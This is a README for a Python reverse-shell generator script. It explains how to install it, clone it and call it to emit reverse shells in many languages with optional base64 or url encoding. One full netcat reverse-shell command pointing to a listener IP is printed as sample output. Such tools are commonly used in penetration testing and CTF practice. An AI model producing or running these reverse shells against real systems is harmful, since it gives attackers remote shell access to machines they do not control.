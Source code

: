 ## Requirements
Pyperclip
```bash
  pip3 install pyperclip
```
Psutil
```bash
  pip3 install psutil
```
## Quick usage

#### Clone the repository (or just copy-paste)
```bash
  sudo git clone https://github.com/Gurguii/Reverse-shell-Generator
```
#### Run the script
```bash
    python3 reverse.py -s <revshell_type> -lh <lhost> -lp* <lport> -enc* <encode_type>
```  
**Note:** default LPORT is 4444, params with * are optional.  
**Available revshells:** bash, netcat, ncat, rustcat, perl, php, windows, powershell, python, ruby, socat, nodejs, telnet, zsh, lua, golang, awk.  
**Available encodes**: base64(also accepts b64 as input), url  
### Useful info  
**LHOST CAN BE AN IP OR AN INTERFACE(E.g. tun0 or 10.10.10.10)**
- Get a list of all available reverse shells 
```bash
    python3 reverse.py -s listall
```  
- Get a list of reverse shells of a given type with the name
```bash
    python3 reverse.py -s nc=list
```
Output:  
 ![image](https://user-images.githubusercontent.com/101645735/178015002-a7ec7467-8b62-4c14-9648-e0c0bf90e019.png)

- Choose a specific reverse shell by name
```bash
    python3 reverse.py -s nc=exe -lh 10.10.10.10
```
This would return => **nc.exe -e sh 10.10.10.10 4444**

## Test 
- Created reverse shell:
```bashi
  hack@hack:~$ python3 reverse.py -s bash=gurgui -lh localhost -lp 9001
```
![If you see this text you are having trouble loading the gif :(](https://media.giphy.com/media/woqDTmU2pL2tc4eJ5c/giphy.gif)  

As you might have noticed, I wrote bash=gurgui, that's because I changed the name of that exact bash rshell to gurgui in the script.  
Having the script in ur path with custom names for shells you usually go for might make this super fast.
